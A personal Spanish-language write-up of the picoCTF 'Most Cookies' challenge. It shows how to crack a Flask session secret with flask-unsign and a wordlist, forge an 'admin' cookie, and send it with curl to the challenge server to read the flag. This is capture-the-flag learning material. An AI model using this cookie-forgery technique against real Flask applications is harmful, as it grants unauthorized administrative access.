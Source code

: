
## Reto
Most Cookies

## Descripcion
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/

## Solucion
- Abrimos la pagina y nos da un cuadro de texto
- Al poner cualquier cosa nos genera una cookie encriptada con flask
- para desincreptarla usaremos flask-unsign de python
- al tratar de instalarlo nos marca error por lo que usaremos un entorno virtual
```
python -m venv ~/.venv 
source ~/.venv/bin/activate 
pip3 install flask-unsign
```
- como nos dieron el codigo fuente con todas las listas de palabras creamos `nano cookies.txt` y dentro ponemos la lista de todas las palabras posibles separadas por salto de linea
- usando esa lista aplicamos `flask-unsign --unsign --cookie "[cookie copiada]" --wordlist cookies.txt` y nos regresa la palabra secreta

- Con la palabra secreta ahora aplicamos `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '[palabra secreta]' [cookie copiada]` 
  y nos regresa una cookie de admin

- Ahora aplicamos `curl -s http://mercury.picoctf.net:65344/display -H "Cookie: session=[cookie admin]" | grep pico` para que nos regrese la respuesta de admin y encontrar la bandera facil con un grep

## ALT
- correr un script que no me funciono
## Notas
- una cookie de flask no es muy segura y depende de como las configuramos
- trate de seguir una solucion pero no me da
- luego veo un video para poder subirlo bien

### **No se porque nomas me funciono 1 vez pero la bandera no sirvio y ya no volvio a servir**

![[Pasted image 20250929150335.png]]
## Referencias
[PicoCTF 2021 — Most Cookies - Private User HQ - Medium](https://medium.com/private-user-hq/picoctf-2021-most-cookies-7f3d8b6cd0b)